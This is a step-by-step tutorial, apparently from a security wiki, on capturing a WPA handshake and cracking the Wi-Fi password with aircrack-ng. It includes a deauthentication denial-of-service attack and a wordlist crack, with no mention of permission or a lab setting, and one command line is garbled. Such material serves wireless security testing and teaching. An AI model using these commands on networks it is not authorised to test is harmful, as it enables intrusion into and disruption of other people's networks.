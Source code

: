 ## Install Aircrack-ng In Your Machine

```
sudo apt install aircrack-ng
```



## Put the Network Interface Card in Monitor Mode

### Identify the Wireless Network Card

```
iwconfig
```

### Run The Below Commands

```
sudo airmon-ng check rfkillsudo
airmon-ng start <network interface>
```



## Look For Targets

```
sudo airodump-ng <network interface>
```



## Scan A Specific Target

```
sudo airodump-ng <network interface> --bssid <AP>
```



## Capture the Handshake

### Performing DoS on the AP

You can use `aireplay-ng` or `mdk4` to disconnect devices from APs for a time. This is called a de-authentication attack or a wireless DOS (Denial-Of-Service) attack.

Now here’s the game plan:

1. Setup airodump-ng to capture packets and save them
2. De-authenticate the device for some time while airodump-ng is running
3. Capture the handshake

### 1. Setup airodump-ng to capture packets and save them

```
sudo airodump-ng -c <channel number> --bssid <AP BSSID> <network interface> -w <path for saved packets file>
```

{% hint style="info" %}
Here, we're using the `-c` flag to specify the channel to search, the `--bssid` flag for the MAC address of the AP, and the `-w` flag to give a path you want to save the captured packets to.
{% endhint %}

{% hint style="info" %}
Quick lesson: Channels reduce the chances of APs interfering with each other. When running `airodump-ng`, you can identify the channel number under the CH column.
{% endhint %}

### 2. Run the De-Authentication Attack

```
sudo aireplay-ng -a <BSSID of the AP> --deauth <time> <network interface>
```

{% hint style="info" %}
The `-a` flag specifies the MAC address of the AP, `--deauth` specifies how long you want the attack to run in seconds, followed up by the network card.
{% endhint %}

### 3. Capture the Handshake

{% hint style="info" %}
While the DOS attack is underway, check on your airodump scan. You should see at the right top : `WPA handshake: <mac address>`. Once you have verified that, you can stop the replay attack and the `airodump-ng` scan.
{% endhint %}



## Cracking the Captured Password

{% hint style="info" %}
A PMK is basically an algorithmic combination of a word and the APs name. Our intention is to continuously generate PMKs using a wordlist against the handshake. If the PMK is valid, the word used to generate it is the **password**. If the PMK is not valid, it skips to the next word on the list.
{% endhint %}

```
sudo aircrack-ng <captured file with .cap> -w <path to wordlist>
```



## END: Put Your Network Card In Managed Mode

To clean up, simply remove the file captures, close your terminals, and run the command `service NetworkManager restart` to change your network card back to managed mode so you can connect to the Wi-Fi.

